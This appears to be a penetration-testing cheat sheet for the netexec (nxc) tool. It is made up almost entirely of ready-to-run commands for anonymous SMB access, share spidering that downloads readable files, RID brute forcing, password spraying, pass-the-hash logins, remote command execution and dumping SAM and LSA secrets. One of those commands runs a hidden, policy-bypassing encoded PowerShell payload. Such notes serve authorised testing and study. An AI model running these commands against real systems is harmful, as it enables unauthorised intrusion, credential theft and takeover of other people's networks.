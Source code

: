 ```yaml
---
tags:
  - tool
  - smb
  - ldap
  - wmi
  - brute_forcing
---
```

# netexec

Enumerate services

## Capabilities

### SMB

```bash
# Null authentication
nxc smb $IP -u '' -p ''

# Anonymous authentication
nxc smb $IP -u 'a' -p ''

# Enumerate shares
nxc smb $IP -u 'a' -p '' --shares
nxc smb $IP -u 'a' -p '' --spider SHARE --depth 1

# Spider all shares, downloading all readable files
nxc smb $IP -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=.
# List all files with their respective shares
cat $IP.json | jq '. | map_values(keys)'

# Brute force usernames through RIDs
nxc smb $IP -u 'a' -p '' --rid-brute 10000

# Check password policy
nxc smb $IP -u 'a' -p '' --pass-pol

# Brute force discovered users
nxc smb $IP -u users.txt -p users.txt --continue-on-success

# Password spray
nxc smb $IP -u users.txt -p 'password' -d corp.com --continue-on-success
```

### Credentialed commands

```bash
# Check credentials
nxc smb $IP -u $USER -p '$PASS'
nxc rdp $IP -u $USER -p '$PASS'
nxc winrm $IP -u $USER -p '$PASS'
nxc wmi $IP -u $USER -p '$PASS'

# Run BloodHound
nxc ldap $IP -d $DOMAIN -u $USER -p $PASS --bloodhound -ns 10.10.99.140 --collection all

# Execute commands (default to wmi, then smb)
nxc wmi $IP -u username -p 'password' -x whoami
nxc smb $IP -u username -p 'password' -x whoami
nxc smb $IP -u username -p 'password' -x 'powershell -nop -w hidden -noni -ep bypass -e JABjAGwAaQBlAG4AdAAgAD0AIABO...'
```

NOTE: Add `--local-auth` flag to check credentials against the local user database, as opposed to the domain

Check a NetNTLMv2 hash with the following commands

Example hash:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::
```

```bash
nxc smb 192.168.1.0/24 -u username -H 'NTHASH'
nxc smb 192.168.1.0/24 -u username -H 'LM:NT'
```

Applied to our example:

```bash
nxc smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
nxc smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
```

#### Obtaining credentials

```bash
# Dump SAM (requires Domain Admin or Local Admin Privileges with --local-auth)
nxc smb $IP -u Administrator -p 'password' --sam

# Dump LSA secrets (requires Domain Admin or Local Admin Privileges with --local-auth)
nxc smb $IP -u Administrator -p 'password' --lsa
```
